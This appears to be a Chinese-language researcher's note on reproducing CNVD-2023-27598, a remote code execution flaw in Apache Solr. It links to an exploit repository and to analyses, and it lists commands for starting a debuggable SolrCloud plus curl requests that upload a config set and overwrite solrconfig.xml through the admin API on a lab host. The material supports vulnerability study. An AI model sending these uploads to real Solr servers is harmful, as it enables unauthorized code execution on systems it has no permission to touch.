# CNVD-2023-27598_ApacheSolr_RCE

- exp
  - `https://github.com/pupil857/Solr-Exploit`
- 分析
    - [原始-360](https://blog.noah.360.net/apache-solr-rce/)
    - `https://blog.huamang.xyz/post/solr_cloud_rce/`
    - `https://okaytc.github.io/posts/5a99c826.html`

---

## 利用

```bash
# -c开启solrcloud模式，-f后台显示执行情况，-a调试参数（端口设置同idea一样）(win上始终没能跑成功)(linux上用 solr 文件跑 9.1 成功了)
solr.cmd start -c -f -a "-agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=*:35005"
./solr start -e cloud -a "-agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=*:5005"
```

```bash
curl -X POST --header "Content-Type:application/octet-stream" --data-binary @conf.zip "http://192.168.1.215:8983/solr/admin/configs?action=UPLOAD&name=lib9"

curl -X POST --header "Content-Type:application/octet-stream" --data-binary @solrconfig.xml "http://192.168.1.215:8983/solr/admin/configs?action=UPLOAD&name=lib9&filePath=solrconfig.xml&overwrite=true"

```

```
curl -X POST --header "Content-Type:application/octet-stream" --data-binary @conf.zip "http://192.168.1.215:8080/solr/admin/configs?action=UPLOAD&name=lib9"

curl -X POST --header "Content-Type:application/octet-stream" --data-binary @solrconfig.xml "http://192.168.1.215:8080/solr/admin/configs?action=UPLOAD&name=lib9&filePath=solrconfig.xml&overwrite=true"
```